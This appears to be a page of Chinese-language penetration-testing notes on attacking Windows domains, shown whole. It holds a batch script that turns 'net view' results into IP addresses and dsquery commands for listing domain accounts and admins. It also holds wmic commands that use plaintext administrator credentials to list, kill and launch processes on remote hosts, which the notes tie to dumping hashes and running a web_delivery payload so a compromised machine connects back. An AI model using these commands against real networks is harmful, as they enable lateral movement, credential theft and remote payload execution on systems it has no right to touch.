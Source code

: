 批量把net view的结果转换为ip
```
@echo off
setlocal ENABLEDELAYEDEXPANSION
@FOR /F "usebackq eol=- skip=1 delims=\" %%j IN (`net view ^| find "命令成功完成" /v ^|find "The command completed successfully." /v`) DO (
@FOR /F "usebackq delims=" %%i IN (`@ping -n 1 -4 %%j ^| findstr "Pinging"`) DO (
@FOR /F "usebackq tokens=2 delims=[]" %%k IN (`echo %%i`) DO (echo %%k  %%j)
)
)
```

利用dsquery 工具搜集域内信息,该工具貌似只在域控机器上有,应该是在域的安装包里,你可以把对应系统的这个工具的exe和dll扣出来上传上去用
```
# dsquery computer 	查看当前域内的所有机器,dsquery工具一般在域控上才有,不过你可以上传一个和目标系统版本对应的dsquery
# dsquery user 		查看当前域中的所有账户名
# dsquery group 	查看当前域内的所有组名
# dsquery subnet 	查看到当前域所在的网段
# dsquery site 		查看域内所有的web站点
# dsquery server	查看当前域中的所有服务器(应该是指域控)
# dsquery user domainroot -name admin* -limit 240  查询前240个以admin开头的用户名
```

### \#0x02 wmic套件使用
其实,上面基础工具能干的事情,wmic全部能干,且过之不及,在操作远程时,如果遇到'RPC 服务不可用'直接把机器名换成ip即可,别看这么多,我们实战用的最多的可能就是远程执行及远程开启rdp了,如,远程导hash,远程执行payload...
查询当前及远程机器的进程信息
```
# wmic process list brief
# wmic process list brief /every:1	每隔一秒刷新一次系统进程
# wmic /node:"192.168.3.122" /user:klionsec\administrator /password:"admin!@#123" process list brief
```

查询当前及远程机器上指定进程的详细信息
```
# wmic process where name='calc.exe'  list brief
# wmic /node:"192.168.3.122" /user:klionsec\administrator /password:"admin!@#123" process where name='calc.exe'  list brief
```

删除当前及远程机器中的指定进程
```
# wmic process where name='calc.exe' delete
# wmic /node:"192.168.3.122" /user:klionsec\administrator /password:"admin!@#123" process where name='calc.exe' delete
```

在当前机器中执行指定程序
```
# wmic process call create "calc.exe"
```

通过smb在远程机器上执行指定程序,如,在本地让远程机器上线,在抓取目标系统用户的hash,等等...
```
# wmic /node:192.168.3.122 /user:klionsec\administrator /password:"admin!@#123" process call create "web_delivery payload"
```
